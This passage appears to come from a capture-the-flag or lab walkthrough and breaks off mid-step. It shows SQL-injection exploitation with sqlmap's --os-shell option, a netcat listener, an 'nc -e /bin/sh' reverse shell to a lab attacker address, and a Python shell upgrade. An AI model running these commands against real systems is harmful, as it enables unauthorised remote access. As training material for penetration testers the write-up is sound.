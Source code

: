 ```text
sqlmap -v 4 --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" --os-shell -r request.txt
```

* **— os-shell:** Prompt for an interactive operating system shell

![](../images/max/1411/1*coZ8IlW9wPF4tOjHPyHKUg.png)

We have a shell! This goes to show how powerful this tool is, which is probably why it’s not allowed on the OSCP.

From here, we’ll send a reverse shell back to us. First, set up a listener on the attack machine.

```text
nc -nlvp 1234
```

Then visit [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), and get a bash reverse shell.

```text
nc -e /bin/sh 10.10.14.12 1234
```

Run the above command in the SQLMap shell.

![](../images/max/781/1*ezN5fuPPIpY_LGGFNLf8LQ.png)

We get a shell! Let’s upgrade it to a better shell.

```text
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session \(CTRL+ Z\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.
